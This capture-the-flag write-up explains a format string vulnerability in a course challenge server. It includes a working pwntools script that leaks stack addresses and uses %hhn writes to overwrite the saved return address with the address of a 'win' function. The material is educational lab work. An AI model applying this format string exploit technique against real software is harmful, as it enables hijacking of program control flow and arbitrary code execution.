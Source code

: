 # Challenge `Return Address Again` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23198
- Impact:
  - Allows attacker to call arbitrary functions

## Steps to reproduce

1. In this example we must change the saved `eip` register to the address of the `win` function
2. The addresses on server differ from the local addresses. The remote `buffer` address can be obtain by inputting `AAAA.%08x` and is `0xffffdc7c`
3. The local `buffer` address is `0xffffcfcc` and the `eip` address is `0xffffd05c`
4. We can calculate the difference between these and use it to find the remote `eip` address, subsequently changing it

The code used was the following:


```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23198, timeout=100)

elf = ELF("08_return")
win_address = elf.symbols['win']

local_buffer = 0xffffcfcc
local_eip_adress =  0xffffd05c

diff = (local_buffer - local_eip_adress)

leaked_buffer = 0xffffdc7c
eip_address =  leaked_buffer - diff

offset1 = win_address & 0xff
offset2 = win_address >> 8 & 0xff
offset3 = win_address >> 16 & 0xff
offset4 = win_address >> 24 & 0xff

payload = p32(eip_address) + p32(eip_address + 2) + p32(eip_address + 1) + p32(eip_address + 3) +  \
    "%0{0}x%7$hhn%0{1}x%8$hhn%0{2}x%9$hhn%0{3}x%10$hhn".format(
        (offset1 - 16) % 256, (offset3 - offset1) % 256, (offset2-offset3) % 256, (offset4 - offset2) % 256).encode()

s.sendline(payload)
print(s.recvall())
```
